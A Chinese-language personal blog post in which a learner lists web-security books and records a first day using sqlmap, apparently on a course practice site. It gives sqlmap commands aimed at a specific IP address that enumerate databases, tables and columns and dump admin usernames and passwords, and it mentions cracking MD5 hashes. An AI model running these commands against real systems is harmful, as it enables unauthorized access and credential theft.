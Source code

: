 ```yaml
---
layout:     post
title:      渗透测试01
subtitle:   学习
date:       2019-11-28
author:     swq
header-img: img/post-bg-hacker.jpg
catalog: true
tags:
    - hacker
---
```

# 书籍记录

1. web安全书籍类（都是经典中的经典）：《白帽子讲Web安全》《SQL注入攻击与防御 》《Web安全深度剖析》《Web前端黑客技术揭秘》《黑客攻防技术宝典  Web实战篇 》
2. kali渗透测试类书籍：《Metasploit渗透测试魔鬼训练营》《Metasploit渗透测试指南》《KALI渗透测试技术实战》《kali linux官方手册》


# day01


今天在上班空闲时间学习使用了下 sqlmap，主要是昨晚视频中的简单的 sql 注入测试

先自己手动找注入点，1=2 等，然后找到注入点之后使用 sqlmap

找到数据库名
```sqlmap -u "http://59.63.200.79:8003/?id=1"  --dbs```

找到表名

```sqlmap -u "http://59.63.200.79:8003/?id=1"  -D maoshe --tables```

通过判断类似账号的表来查字段名

```sqlmap -u "http://59.63.200.79:8003/?id=1"  -D maoshe -T admin --columns```

然后找数据

```sqlmap -u "http://59.63.200.79:8003/?id=1"  -D maoshe -T admin -C username,password  --dump```

如果密码加密的话还需要一些 md5 解密等



当然 ，这只是一个最初级的 sql 注入，总归是自己能有点成果


									2019.11.28
